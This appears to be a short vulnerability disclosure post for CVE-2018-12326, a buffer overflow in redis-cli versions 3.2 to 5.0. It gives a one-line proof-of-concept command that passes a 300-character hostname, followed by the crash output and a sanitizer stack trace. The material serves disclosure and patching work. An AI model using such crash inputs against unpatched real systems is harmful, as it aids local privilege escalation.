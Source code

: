 ```yaml
---
layout: post
title: "Redis-cli Buffer Overflow"
comments: true
description: "Redis-cli Buffer Overflow"
keywords: "redis, redis-cli, buffer overflow"
---
```


Exploit Title: Redis-cli Buffer Overflow<br>
Date: 2018-06-13<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://redis.io/<br>
Software Link: https://redis.io/download<br>
Version: 5.0, 4.0, 3.2<br>
Fixed on: 5.0, 4.0, 3.2<br>
CVE : CVE-2018-12326<br>

Buffer overflow in redis-cli of Redis version 3.2, 4.0, and 5.0 allows a local attacker to achieve code execution and escalate to higher privileges via a long string in the hostname parameter.

```
$ ./src/redis-cli -h `python -c 'print "A" * 300'`
Could not connect to Redis at AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:6379: Name or service not known

#0 0x4a4182 in vsnprintf /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:1566
#1 0x4a42d0 in snprintf /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:1637
#2 0x570159 in repl /home/user/redis/src/redis-cli.c:1624:5
#3 0x55ba77 in main /home/user/redis/src/redis-cli.c:6660:9
#4 0x7f6be5f6e82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#5 0x4247a8 in _start (/home/user/redis/src/redis-cli+0x4247a8)
```
---
References:
1. https://raw.githubusercontent.com/antirez/redis/4.0/00-RELEASENOTES
2. https://raw.githubusercontent.com/antirez/redis/5.0/00-RELEASENOTES
